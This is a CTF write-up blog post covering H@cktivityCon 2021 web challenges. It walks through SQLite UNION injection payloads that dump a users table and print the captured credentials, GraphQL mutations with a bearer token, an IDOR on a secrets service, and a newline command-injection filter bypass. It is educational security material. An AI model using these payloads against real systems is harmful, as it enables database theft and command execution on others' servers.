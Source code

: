 ```yaml
---
layout: post
title:  H@cktivityCon CTF 2021  Web Challenges Writeup                               # Title of the page
hide_title: false                                  # Hide the title when displaying the post, but shown in lists of posts
feature-img: "assets/img/writeups/Hackcon/abu_index.png"              # Add a feature-image to the post
thumbnail: "assets/img/writeups/Hackcon/abu_index.png"  # Add a thumbnail image on blog view
color: dufault                            # Add the specified color as feature image, and change link colors in post
bootstrap: true                                   # Add bootstrap to the page
author: abdoghazy
excerpt_separator: <!--more-->
tags: [ctf, writeup, Web]
---
```

<h1>H@cktivityCon CTF 2021  Web Challenges Writeup </h1>  
 <!--more-->

Hello All iam abdelhameed ghazy and this is my writeup for some web challenges in H@cktivityCon CTF 2021 

First challenge : All Backed Up    Level: Medium      sqlite_injection and graphql 
Desc : Grandma always knew how to make tried-and-true baked goods, and these recipes prove it!


<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_index.png" /> 

as we see there is four blogs about cakes so let's see any one of them
http://challenge.ctf.games:31353/post/Blackberry-Orange Cake

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_somecake.png" /> 


as we see there is a endpoint called post and then there is another endpoint had the name of cake so let's try sqli 
http://challenge.ctf.games:31353/post/Blackberry-Orange Cake' or 1=1--
after i tried this it gives the first cake : 

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli1.png" /> 

so let's know the numbers of columns by ' order by 1 --
after incresing the number we got that we had  6 columns so let's use union to dump data 
http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,2,3,4,5,6 --

the column 2,4,6  are reflected into the page so we will dump using them 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli_column.png" /> 


first i used http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,sqlite_version(),3,4,5,6 --

to make sure that's a sqlite so i tried to dump the columns from database by this 

http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,sql,3,4,5,6 from sqlite_master limit 1,1 --
i found a table called posts so i ignored it and then i used this 
http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,sql,3,4,5,6 from sqlite_master limit 2,1--
to get the second table (users)

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli_users.png" /> 
as you see there is a table called users had username,password  so let's dump the creds 

http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,username,3,password,5,6 from users--

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli_creds.png" /> 
as you see we got the creds 

username :congon4tor   password : n8bboB!3%vDwiASVgKhv

and there isn't  user else 

so i stuck here but after review requests i found a request sent to graphql and i didn't like it :( 

so i used graphql map : (it's  not a scanner i just use it to help me write my quiers eaisly)

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_graphqlmap.png" /> 

python3 graphqlmap.py -u http://challenge.ctf.games:31353/graphql --method POST --json

and then i used dump_new command to view graphql contents 

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_graphql_dump.png" /> 

as we see we had intersting stuff here 

Mutation called  (authenticateUser) took two parameters username and password both of them is string
Query called flag
token used in auth 

at first i tried to call flag qurey by this : {flag}
but it returned  :(error authenticating user: invalid token)

so by logic we need to use authenticateUser mutation to get token then used it to auth then call the flag query 

but for sorry i didn't know how to use it :( 
so i started searching how to use mutation and queries and Alhamdullah I got it 

first we will get the token by this command : mutation{authenticateUser(username:"congon4tor" password:"n8bboB!3%vDwiASVgKhv"){token}}

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_graphql_token.png" /> 

nice !!! Now We got the token but didn't know how to use it to call the flag maybe it's a authorization header or we will send it in graphql parameter but after i switch on my browser tabs i found the github repo for graphqlmap it provide us to sent custom headers 
by this option : --headers

so, i exit graphql map and use this new command : 
python3 graphqlmap.py -u http://challenge.ctf.games:31353/graphql --method POST --json  --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNvbmdvbjR0b3IiLCJleHAiOjE2MzIyMzI1NjEsImlhdCI6MTYzMjA1OTc2MSwiaXNzIjoiQ29uZ29uNHRvciJ9.WhAB-0xq54d4w4WT0cW2Ev8iozY-ASk0pQi2WGHDv-8"}'

and then called flag query {flag}

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_flag.png" /> 


Second  challenge : OPA Secrets    Level: Hard      Flask Code Review , Idor  
Desc : OPA! Check out our new secret management service

After you read : i see it's a not hard challenge but any way let's see 

after signup & login we found that it takes secret 

opa_index 

while browsing i found the github repo that had the source code ;) 

so as always i see the changes in the files and no thing intersted either admin password and it's not working also xD 
but i found secret from admin called Flag and it's id 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/opa_flagid.png" /> 

so let's see app.py  , as we see there is a endpoint called getValue that calls function called get_secret() 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/opa_apppy.png" /> 

it sends post request to a locally host and get the secret so i tried secret id that we got and i got the flag xD

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/opa_flag.png" /> 


also we had an medium command injection  challenge that use sha256 command but  filters all special chars  (;&|) so i bypassed it by  : /n so my payload was 
flag.txt%0Acat flag.txt

